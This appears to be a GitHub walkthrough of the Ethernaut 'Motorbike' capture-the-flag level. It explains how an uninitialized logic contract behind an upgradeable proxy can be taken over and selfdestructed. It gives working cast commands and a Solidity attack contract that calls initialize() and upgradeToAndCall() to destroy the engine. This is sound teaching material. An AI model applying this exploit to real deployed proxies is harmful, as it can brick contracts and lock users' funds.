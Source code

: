 # Ethernaut Walkthrough: Motorbike
## Welcome to KweenBirb's 26th installment of Ethernaut walkthroughs! 

Ethernaut is a set of gamified Solidity challenges in the style of a CTF, where each level features a hackable smart contract that will inform you of various known security vulnerabilities on EVM blockchains.

This repo will walk you through a solution to Motorbike.sol, the 26th challenge in the series. You can find the challenge itself and fully fleshed out solution in the .txt file in the root directory and .sol file in the ./src directory. Let's begin!

In this challenge, Ethernaut gives us yet another upgradeable proxy pattern contract, this time asking us to 'selfdestruct its engine and make the motorbike unusable'

This challenge features a proxy just like the last challenge: Puzzle-Wallet, go check it out if you haven't already as this challenge will make a lot more sense having gone through that one. I actually just recently read of the exploit dubbed "explodingKittens" that thankfully was discovered before any damage could be done. It's a severe vulnerability that could have been abused to brick tens (possibly hundreds) of millions of dollars. Funny enough, while solving the previous challenge I was at first convinced we would need to explode some kittens, only belatedly realizing it was a much simpler storage overlap situation. This challenge however looks prime for exploding some kittens!

The 2021 ExplodingKittens exploit is premised on the fact that many upgradeable proxy contracts possess their upgrade logic in the logic implementation contract and that calls are delegatecalled via a fallback function. This proxy pattern, while immensely useful, can be terribly disastrous if a dapp does not take care to initialize its logic implementation contract (logic implementation contracts' initialize function must be manually invoked, unlike constructors). In such a case, an attacker may be able to gain permissioned access within a logic contract and maneuver laterally within to wreak other havoc.

So, let's see if we can't bypass the proxy entirely and call the initialize function on the logic implementation contract itself.

First let's locate the target logic implementation contract. There are a variety of ways to do this, via some sleuthing on Etherscan, using OpenZeppelin's awesome library of nifty proxy functions, or using Foundry's cast storage command. 

Personally I chose to use Foundry for this, but if you're more comfortable using Javascript I included that approach as well.

## Foundry's cast storage command

Remember that all storage variables and bytecode are ALWAYS public on-chain. There is nowhere to hide. Since we have the Motorbike's source code via Ethernaut, all we need to do is read from the storage slot termed _IMPLEMENTATION_SLOT (assigned 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc) specified at the top of the contract.

```cast storage $your_ethernaut_instance 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc```

Where $your_ethernaut_instance is set by a simple export:

```export instance=0xd00d00beefb00b```

## The OpenZeppelin JS option

If you go the OpenZeppelin route, a short js script will do the trick:

```
import {getImplementationAddress} from '@openzeppelin/upgrades-core'
const targetImpl = await getImplementationAddress(provider, proxyAddress)
```

Where your proxyAddress would be $your_ethernaut_instance and the provider would be easily set using the Ethers library. I've included the completed js script is in the ```script``` directory of this repo; it uses the common ethers js framework as well as the ever-useful dotenv library to establish a connection to Rinkeby via Infura.

When we run our nifty getImplementation.js script, a target address is returned to us in the console:

![alt text](https://github.com/robriks/motorbike/../../../../script/result.png)

## Once we've identified the logic implementation contract address

Looking back at the proxy, we see that the proxy contract is initialized in the proxy constructor:

```
    (bool success,) = _logic.delegatecall(
        abi.encodeWithSignature("initialize()")
    );
    require(success, "Call failed");
```

But there's no call to initialize the logic contract in sight! To be sure, let's run some quick checks to see if the logic implementation is initialized:

```cast call $IMPL --rpc-url $RPC "upgrader():(address)"```
```cast call $IMPL --rpc-url $RPC "horsePower():(uint256)"```

0 all around!? QUICK, CALL INITIALIZE() BEFORE SOME OTHER H4CK3R DOES! (or, as we are about to do, write it into a malicious contract for the element of surprise ;) )

```cast send --private-key $PRIV_KEY $IMPL --rpc-url $RPC "initialize()"```

Howly h00ts, I'M IN!!! 😈😈😈😈😈

PWND! With upgrader set to h4xz0r KweenBirb's address, we can now call upgradeToAndCall() to set a logic implementation 'engine' with a selfdestruct() function for the original logic implementation 'engine' to call! Teehee, we're gonna blow this Motorbike Engine to smithereens and set all the funds involved on 🔥🔥🔥fire🔥🔥🔥!

That way, once the Engine contract is selfdestructed, the proxy contract will be bricked, stuck calling an empty contract for its functions. The only way our plan could be foiled is if the delegatecall architecture checks for extcodesize() to prevent this. Looking at the _delegate fallback, we can see indiscriminate delegatecall assembly handling every call forwarded to the fallback function:

```
    function _delegate(address implementation) internal virtual {
        // solhint-disable-next-line no-inline-assembly
        assembly {
            calldatacopy(0, 0, calldatasize())
            let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)
            returndatacopy(0, 0, returndatasize())
            switch result
            case 0 { revert(0, returndatasize()) }
            default { return(0, returndatasize()) }
        }
    }
```

Aaaaand no extcodesize() logic to save the proxy if we brick it. Perfect.

## Let's get cracking, shall we?

Let's format a malicious contract function invoking selfdestruct():

```
function payload() public {
        selfdestruct(0x000000000000000000000000000000000000dEaD);
    }
```

And then invoke it using the Engine's convenient function intended for the proxy Motorbike to both set a new implementation and presumably initialize it in a single transaction. Of course, we'll be setting things on fire instead.

```
function sugarInYourEngine() public {
        // become upgrader by initializing logic engine
        engine.initialize();
        engine.upgradeToAndCall(address(this), abi.encodeWithSignature("payload()"));
    }
```

With that, all we need to do is deploy our malicious contract and call sugarInYourEngine() to clog and explode the engine of Ethernaut's Motorbike. Pretty rude, if you ask me. But it had to be done.
